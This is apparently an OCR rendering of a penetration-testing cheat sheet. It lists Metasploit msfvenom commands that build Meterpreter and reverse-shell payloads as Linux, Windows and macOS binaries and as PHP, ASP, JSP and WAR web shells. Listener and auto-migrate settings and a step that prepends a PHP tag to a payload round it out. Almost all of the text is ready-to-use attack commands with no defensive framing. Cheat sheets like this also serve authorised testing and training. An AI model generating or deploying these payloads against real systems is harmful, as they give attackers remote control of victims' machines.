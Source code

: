 ```bash
set AUTORUNSCRIPT post/windows/manage/migrate
```

### **Meterpreter Payloads**

```bash
msfvenom –l
```

- List options

### **Binaries**

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST= LPORT= -f elf > shell.elf
```

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f exe > shell.exe
```

```bash
msfvenom -p osx/x86/shell_reverse_tcp LHOST= LPORT= -f macho > shell.macho
```

### **Web Payloads**

```bash
msfvenom -p php/meterpreter/reverse_tcp LHOST= LPORT= -f raw > shell.php
```

- PHP

```bash
set payload php/meterpreter/reverse_tcp
```

- Listener

```bash
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```

- PHP

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f asp > shell.asp
```

- ASP

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST= LPORT= -f raw > shell.jsp
```

- JSP

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST= LPORT= -f war > shell.war
```
